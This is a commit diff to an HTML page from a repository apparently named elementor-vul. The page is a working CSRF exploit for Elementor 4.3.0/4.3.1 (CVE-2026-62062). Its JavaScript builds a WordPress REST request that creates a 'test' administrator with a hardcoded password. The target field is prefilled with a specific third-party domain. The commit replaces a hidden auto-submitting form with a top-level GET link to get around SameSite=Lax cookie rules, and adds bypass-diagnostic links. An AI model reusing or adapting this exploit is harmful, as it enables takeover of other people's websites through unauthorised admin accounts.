

Before and after one commit to MIKE2634/elementor-vul, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 29-1283 px from the top of the page, without its empty margins (198-1083 px from the left). After the commit the page ends 997 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update GitHub Pageccs

```diff
--- a/index.html
+++ b/index.html
@@ -5,96 +5,93 @@
 <meta name="viewport" content="width=device-width, initial-scale=1">
 <title>Elementor CSRF → Admin (CVE-2026-62062) — self-test</title>
 <style>
-  :root{--bd:#d0d7de}
-  body{font-family:system-ui,-apple-system,Segoe UI,sans-serif;max-width:820px;margin:32px auto;padding:0 16px;line-height:1.55;color:#1f2328}
-  h1{font-size:1.4rem}
-  label{display:block;font-weight:600;margin-top:18px}
-  input,select,textarea{width:100%;box-sizing:border-box;padding:8px;margin:6px 0;
-    border:1px solid var(--bd);border-radius:6px;font-family:ui-monospace,monospace;font-size:13px}
-  button{padding:12px 20px;font-size:15px;border:1px solid #1f2328;border-radius:6px;
-    background:#b3261e;color:#fff;cursor:pointer;margin-top:10px}
-  button.sec{background:#f6f8fa;color:#1f2328}
-  .grid{display:grid;grid-template-columns:1fr 1fr;gap:12px}
+  body{font-family:system-ui,sans-serif;max-width:820px;margin:32px auto;padding:0 16px;line-height:1.55;color:#1f2328}
+  h1{font-size:1.35rem} h2{font-size:1.1rem;margin-top:28px}
+  input,select{width:100%;box-sizing:border-box;padding:8px;margin:6px 0;border:1px solid #d0d7de;
+    border-radius:6px;font-family:ui-monospace,monospace;font-size:13px}
+  a.btn{display:inline-block;margin:12px 0;padding:13px 22px;font-size:16px;font-weight:600;
+    background:#b3261e;color:#fff;text-decoration:none;border-radius:6px}
+  a.btn:hover{background:#8c1d18}
   .note{background:#fff8e1;border-left:4px solid #f0a000;padding:10px 14px;border-radius:4px;margin:16px 0}
-  .ok{background:#e6ffed;border-left:4px solid #2da44e;padding:10px 14px;border-radius:4px}
+  .warn{background:#ffebe9;border-left:4px solid #cf222e;padding:10px 14px;border-radius:4px;margin:16px 0}
   table{border-collapse:collapse;width:100%;font-size:13px;margin-top:10px}
-  td,th{border:1px solid var(--bd);padding:6px 8px;text-align:left}
-  iframe{width:100%;height:180px;border:1px solid var(--bd);border-radius:6px;background:#fff}
+  td,th{border:1px solid #d0d7de;padding:7px 9px;text-align:left;vertical-align:top}
+  code{font-family:ui-monospace,monospace;font-size:12px;word-break:break-all}
+  a.diag{color:#0969da;text-decoration:none;font-family:ui-monospace,monospace;font-size:12px;word-break:break-all}
+  a.diag:hover{text-decoration:underline}
 </style>
 </head>
 <body>
-  <h1>Elementor 4.3.0 / 4.3.1 — CSRF → Admin Creator</h1>
+  <h1>Elementor 4.3.0 / 4.3.1 — CSRF → Admin</h1>
 
   <div class="note">
-    <strong>Self-test only.</strong> You must be logged in as administrator on the target
-    <em>in this same browser</em> first. Then use the form (recommended) or the link.
+    Log in to the target as administrator <strong>in this same browser</strong> first.
+    Then click the button — it opens a <strong>new tab / top-level GET</strong>, which is required
+    for the auth cookie to be sent under <code>SameSite=Lax</code>.
+  </div>
+
+  <div class="warn">
+    Do <strong>not</strong> use a form, iframe, or fetch — cross-site POST/subresource requests drop the
+    WordPress auth cookie and you'll get <code>rest_cannot_create_user</code> every time.
   </div>
 
   <label>Target base URL</label>
   <input id="target" value="https://mrgm.co.ke" spellcheck="false">
 
-  <div class="grid">
-    <div>
-      <label>Endpoint style</label>
-      <select id="style">
-        <option value="wpjson">/wp-json/ path</option>
-        <option value="restroute">?rest_route= fallback</option>
-      </select>
-    </div>
-    <div>
-      <label>Marker variant</label>
-      <select id="variant">
-        <option value="good">elementor/v1/events/  (should work)</option>
-        <option value="short">elementor/v1/event/   (control: must fail)</option>
-        <option value="none">(no marker — control: must fail)</option>
-      </select>
-    </div>
-  </div>
+  <label>Marker variant</label>
+  <select id="variant">
+    <option value="good">elementor/v1/events/ — should succeed</option>
+    <option value="short">elementor/v1/event/ — control, must fail</option>
+    <option value="none">(no marker) — control, must fail</option>
+  </select>
 
-  <label>Username / password created on success</label>
-  <input id="creds" value="test : Mike@17894" readonly>
+  <a id="run" class="btn" href="#" target="_blank" rel="noopener">Create "test" admin →</a>
+  <p style="font-size:12px;color:#57606a;margin-top:-6px">Opens in a new tab. A JSON body = result.</p>
 
-  <label>Payload URL (literal slashes in the marker)</label>
-  <textarea id="payload" rows="3" readonly spellcheck="false"></textarea>
-
-  <h2 style="font-size:1.1rem;margin-top:24px">Run</h2>
-  <button id="run">Run (form POST) — recommended</button>
-  <button id="open" class="sec">Open link (GET + _method) in new tab</button>
-
+  <h2>Diagnostic links (all clickable)</h2>
   <p style="font-size:13px;color:#57606a">
-    The form POST is the strongest path: no JS, no <code>_method</code>, no CSP involvement.
-    The response will render in the frame below (hidden if the browser blocks cross-origin, in which
-    case check the Network tab or <code>wp user list --role=administrator</code> on the server).
+    Click each, in order, while logged in. Paste the results if the main button still 401s.
   </p>
-
-  <label>Server response / last navigation</label>
-  <iframe id="out" name="out"></iframe>
-
-  <!-- Hidden auto-built form; its target is the invisible iframe -->
-  <form id="csrf" method="POST" target="out" style="display:none"></form>
-
-  <h2 style="font-size:1.1rem;margin-top:28px">Diagnostic matrix</h2>
-  <table id="diag">
-    <thead><tr><th>Request</th><th>Expected if vulnerable + logged in</th></tr></thead>
+  <table>
+    <thead><tr><th>Test</th><th>What it proves</th><th>Expected if vulnerable</th></tr></thead>
     <tbody>
-      <tr><td>GET <code>/wp-json/wp/v2/users/me?x=elementor/v1/events/</code></td><td>200 + your user object</td></tr>
-      <tr><td>GET <code>/wp-json/wp/v2/settings?x=elementor/v1/events/</code></td><td>200 + site settings</td></tr>
-      <tr><td>Same, marker encoded <code>%2F</code></td><td>401 — proves the substring must be literal</td></tr>
-      <tr><td>Same, no marker</td><td>401 <code>rest_cannot_create_user</code></td></tr>
+      <tr>
+        <td><a class="diag" id="d1" href="#" target="_blank" rel="noopener"></a></td>
+        <td>Session valid + bypass active (read-only, creates nothing)</td>
+        <td>200 + your user object</td>
+      </tr>
+      <tr>
+        <td><a class="diag" id="d2" href="#" target="_blank" rel="noopener"></a></td>
+        <td>Marker encoded as <code>%2F</code> — proves substring must be literal</td>
+        <td>401 <code>rest_cannot_create_user</code></td>
+      </tr>
+      <tr>
+        <td><a class="diag" id="d3" href="#" target="_blank" rel="noopener"></a></td>
+        <td>No marker — control</td>
+        <td>401 <code>rest_cannot_create_user</code></td>
+      </tr>
+      <tr>
+        <td><a class="diag" id="d4" href="#" target="_blank" rel="noopener"></a></td>
+        <td><code>?rest_route=</code> form of the same bypass</td>
+        <td>200 / 201</td>
+      </tr>
+      <tr>
+        <td><a class="diag" id="d5" href="#" target="_blank" rel="noopener"></a></td>
+        <td>Are you actually logged in?</td>
+        <td>200 (not redirected to login)</td>
+      </tr>
     </tbody>
   </table>
 
-  <p id="chk" class="ok" style="display:none">
-    Before running: confirm in this browser that
-    <a id="profile" href="#" target="_blank">/wp-admin/profile.php</a> loads <em>without</em> redirecting to login.
-    If it redirects, you are not authenticated and every request will 401.
+  <p style="font-size:13px;color:#57606a;margin-top:14px">
+    Elementor version check (paste the URL in a tab, or curl it):<br>
+    <a class="diag" id="d6" href="#" target="_blank" rel="noopener"></a>
   </p>
 
 <script>
 (function () {
-  var MARKER = 'elementor/v1/events/';   // literal slashes — never percent-encode
+  var MARKER = 'elementor/v1/events/';   // literal slashes
   var SHORT  = 'elementor/v1/event/';
-
   var $ = function (id) { return document.getElementById(id); };
 
   function base() { return $('target').value.replace(/\/+$/, ''); }
@@ -106,71 +103,40 @@
     return MARKER;
   }
 
-  // Build a GET URL by hand so '/', '?', '&' and the marker stay literal.
-  function getUrl() {
-    var q = '_method=POST'
-          + '&username=test'
-          + '&email=test%40example.test'
-          + '&password=Mike%4017894'
-          + '&roles%5B%5D=administrator';
+  var CREDS = 'username=test&email=test%40example.test'
+            + '&password=Mike%4017894&roles%5B%5D=administrator';
+
+  function createUrl() {
     var m = marker();
-    if (m) q += '&x=' + m;                        // literal marker
-    if ($('style').value === 'restroute') {
-      return base() + '/index.php?rest_route=/wp/v2/users&' + q;
-    }
+    var q = '_method=POST&' + CREDS + (m ? '&x=' + m : '');
     return base() + '/wp-json/wp/v2/users?' + q;
   }
 
-  // Form POST action URL (marker in the query string, fields in the body).
-  function postAction() {
-    var m = marker();
-    var q = m ? ('x=' + m) : '';
-    if ($('style').value === 'restroute') {
-      return base() + '/index.php?rest_route=/wp/v2/users' + (q ? '&' + q : '');
-    }
-    return base() + '/wp-json/wp/v2/users' + (q ? '?' + q : '');
+  function render() {
+    var b = base();
+    $('run').href = createUrl();
+    // d1: users/me with good marker
+    $('d1').href = b + '/wp-json/wp/v2/users/me?x=' + MARKER;
+    $('d1').textContent = '/wp-json/wp/v2/users/me?x=' + MARKER;
+    // d2: encoded marker (control)
+    $('d2').href = b + '/wp-json/wp/v2/users/me?x=elementor%2Fv1%2Fevents%2F';
+    $('d2').textContent = '/wp-json/wp/v2/users/me?x=elementor%2Fv1%2Fevents%2F';
+    // d3: no marker (control)
+    $('d3').href = b + '/wp-json/wp/v2/users/me';
+    $('d3').textContent = '/wp-json/wp/v2/users/me';
+    // d4: rest_route form of the create
+    $('d4').href = b + '/index.php?rest_route=/wp/v2/users/me&x=' + MARKER;
+    $('d4').textContent = '/index.php?rest_route=/wp/v2/users/me&x=' + MARKER;
+    // d5: profile
+    $('d5').href = b + '/wp-admin/profile.php';
+    $('d5').textContent = '/wp-admin/profile.php';
+    // d6: readme version
+    $('d6').href = b + '/wp-content/plugins/elementor/readme.txt';
+    $('d6').textContent = '/wp-content/plugins/elementor/readme.txt';
   }
 
-  function rebuildForm() {
-    var f = $('csrf');
-    f.action = postAction();
-    f.innerHTML = '';
-    var fields = {
-      'username': 'test',
-      'email': 'test@example.test',
-      'password': 'Mike@17894',
-      'roles[]': 'administrator'
-    };
-    Object.keys(fields).forEach(function (name) {
-      var i = document.createElement('input');
-      i.type = 'hidden'; i.name = name; i.value = fields[name];
-      f.appendChild(i);
-    });
-  }
-
-  function render() {
-    $('payload').value = getUrl();
-    $('profile').href = base() + '/wp-admin/profile.php';
-    $('chk').style.display = 'block';
-    rebuildForm();
-  }
-
-  ['target', 'style', 'variant'].forEach(function (id) {
-    $(id).addEventListener('input', render);
-    $(id).addEventListener('change', render);
-  });
-
-  // Form POST: safest, no JS in the exploit itself.
-  $('run').addEventListener('click', function () {
-    rebuildForm();
-    $('csrf').submit();
-  });
-
-  // Link navigation: shows the JSON response directly in a new tab.
-  $('open').addEventListener('click', function () {
-    window.open(getUrl(), '_blank', 'noopener');
-  });
-
+  $('target').addEventListener('input', render);
+  $('variant').addEventListener('change', render);
   render();
 })();
 </script>
```
